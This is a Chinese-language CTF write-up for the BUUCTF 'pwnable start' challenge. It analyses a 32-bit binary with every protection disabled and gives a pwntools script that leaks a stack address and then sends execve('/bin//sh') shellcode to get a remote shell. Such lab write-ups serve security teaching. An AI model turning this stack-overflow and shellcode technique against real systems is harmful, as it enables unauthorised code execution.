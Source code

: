```yaml
---
author: 
  name: Zephyr
title: pwnable start
date: 2022-4-17 09:15:09
permalink: /pages/2e1547494524d1b9
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# pwnable start

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/pwnable_start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

程序汇编代码如下：

```asm
start:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:	54                   	push   %esp
 8048061:	68 9d 80 04 08       	push   $0x804809d
 804806e:	68 43 54 46 3a       	push   $0x3a465443
 8048073:	68 74 68 65 20       	push   $0x20656874
 8048078:	68 61 72 74 20       	push   $0x20747261
 804807d:	68 73 20 73 74       	push   $0x74732073
 8048082:	68 4c 65 74 27       	push   $0x2774654c
 8048087:	89 e1                	mov    %esp,%ecx
 8048089:	b2 14                	mov    $0x14,%dl
 804808b:	b3 01                	mov    $0x1,%bl
 804808d:	b0 04                	mov    $0x4,%al
 804808f:	cd 80                	int    $0x80
 ; write(1,esp,0x14)
 8048091:	31 db                	xor    %ebx,%ebx
 8048093:	b2 3c                	mov    $0x3c,%dl
 8048095:	b0 03                	mov    $0x3,%al
 8048097:	cd 80                	int    $0x80
 ; read(0,esp,0x3c) 
 8048099:	83 c4 14             	add    $0x14,%esp     ; 栈溢出
 804809c:	c3                   	ret    
0804809d <_exit>:
 804809d:	5c                   	pop    %esp
 804809e:	31 c0                	xor    %eax,%eax
 80480a0:	40                   	inc    %eax
 80480a1:	cd 80                	int    $0x80
```

## 思路分析

1. 目前信息：

   - 返回到`esp+0x14`处，但`esp`处可读入`0x3c`长度数据，存在栈溢出
   - No RELRO
   - No canary found
   - NX disabled
   - No PIE
3. 思路

   - 保护全关，考虑`ret2shellcode`，`ret2shellcode`需要先泄漏栈地址，利用栈溢出第一次`ret`到`8048087`处，这时栈顶刚好是程序一开始压栈的`esp`，并且传递给`ecx`，接着`write`系统调用将基址泄漏出来，另外二次写入的地址也是这个泄露出来的基址，常规`ret2shellcode`即可获得`shell`，需要注意的是最后返回到`esp+0x14`处，所以`shellcode`也要对应抬高栈帧


## exp
```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/pwnable_start/start'
io = remote('node4.buuoj.cn', 29235)
#io = process(pwnfile)
padding = 0x14
leak_addr = 0x8048087
io.sendafter("Let's start the CTF:", flat(['a'*padding, leak_addr]))
esp = u32(io.recv(4))
log.success("esp:"+hex(esp))
shellcode = asm("""
    xor edx,edx;
    xor ecx,ecx;
    push edx;
    push 0x68732f6e;
    push 0x69622f2f;
    mov ebx,esp;
    mov eax,0xb;
    int 0x80;
    """)
log.success("shellcode lenth:"+hex(len(shellcode)))
payload = flat(['a'*padding, esp+padding, shellcode])
io.send(payload)
io.interactive()
```

